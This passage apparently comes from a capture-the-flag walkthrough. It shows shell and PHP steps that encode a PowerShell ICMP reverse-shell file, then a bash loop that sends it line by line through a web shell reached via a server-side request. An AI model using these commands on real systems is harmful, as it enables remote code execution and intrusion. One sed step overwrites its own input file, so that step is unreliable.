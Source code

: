 We can URL decode this to be sure:

```php
❯ php --interactive
Interactive mode enabled

php > print urlencode("+");
%2B
php > print urldecode("%2b");
+
php > print urlencode("=");
%3D
php > print urldecode("%3d");
=
php >
```

Create a backup file:

```bash
❯ cp icmp.ps1.b64 icmp.ps1.b64.bak
```

Replace those bad characters with URL encoded characters:

```bash
cat icmp.ps1.b64 | sed -e 's/=/%3d/g' > icmp.ps1.b64
```

Make the spaces the same across the file with `fold`:

```bash
❯ fold icmp.ps1.b64 | head -n 1 | wc -c
81
❯ fold -w 80 icmp.ps1.b64 | head -n 1 | wc -c
81
```

Create a new file:

```bash
❯ fold icmp.ps1.b64 > icmp
```

Script to upload the file:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\nExiting..\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

for line in $(cat icmp); do
    command="echo ${line} >> C:\Temp\reverse.ps1"
    curl -s -v -X GET -G "http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx" --data-urlencode "xcmd=$command"
done
```
